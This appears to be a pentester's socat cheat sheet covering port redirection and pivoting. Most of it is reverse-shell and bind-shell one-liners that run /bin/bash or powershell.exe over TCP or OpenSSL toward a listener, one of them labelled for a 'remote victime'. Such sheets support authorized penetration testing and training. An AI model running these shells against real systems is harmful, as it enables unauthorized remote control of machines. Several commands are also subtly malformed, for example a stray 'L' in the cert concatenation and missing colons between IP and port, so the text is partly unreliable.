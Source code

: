 # socat

% socat
#plateform/linux  #target/remote  #cat/PIVOT 

## local port redirection (pivot)
```bash
socat TCP4-LISTEN:<listen_port>,fork,reuseaddr TCP4:<redirection_ip|localhost>:<redirection_port>
```
## local port redirection to file
```bash
socat TCP4-LISTEN:<listen_port>,fork,reuseaddr OPEN:<file_path>,creat,append
```

## local port redirection to socket
```bash
socat TCP4-LISTEN:<listen_port>,fork,reuseaddr UNIX-CONNECT:<socket_path>
```

## reverse shell - callee
file:`tty`,raw,echo=0
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt
cat <cert>.key <cert>.crt L > <cert>.pem 
encrypted: OPENSSl-LISTEN:<local_port>,cert=<cert>.pem,verify=0,fork
```bash
socat TCP4-LISTEN:<listen_port> STDOUT
```

## reverse shell - caller (linux)
encrypted: OPENSSL:<local_ip><local_port>,verify=0
```bash
socat TCP4:<local_ip><local_port> EXEC:/bin/bash
```

## reverse shell - caller (windows)
encrypted: OPENSSL:<local_ip><local_port>,verify=0
```bash
socat TCP4:<local_ip><local_port> EXEC:'powershell.exe',pipes
```


## bind shell - caller 
encrypted: OPENSSl:<remote_ip>:<remote_port>,verify=0
```bash
socat - TCP4:<remote_ip>:<remote_port>
```

## bind shell - callee (linux)
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt
cat <cert>.key <cert>.crt L > <cert>.pem 
encrypted: OPENSSl-LISTEN:<local_port>,cert=<cert>.pem,verify=0,fork
```bash
socat TCP4-LISTEN:<local_port> EXEC:/bin/bash
```

## bind shell - callee (windows)

encrypted: OPENSSl-LISTEN:<local_port>, cert=<cert>.pem,verify=0,fork
```bash
socat TCP4-LISTEN:<local_port> EXEC:'powershell.exe',pipes
```



## socat port forwarding listener (on local machine)
```
./socat TCP-LISTEN:<port_listener|4444>,fork,reuseaddr TCP-LISTEN:<port_to_forward>
```

## socat port forwarding connect (on remote machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP:<connect_ip>:<connect_port|4444> TCP:127.0.0.1:<port_to_forward>
```

## socat reverse shell (remote victime)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listner_ip>:<listner_port|4444>
```

## socat reverse shell listener (local)
#plateform/linux  #target/remote  #cat/PIVOT 
```
socat file:`tty`,raw,echo=0 tcp-listen:<listner_port|4444>
```

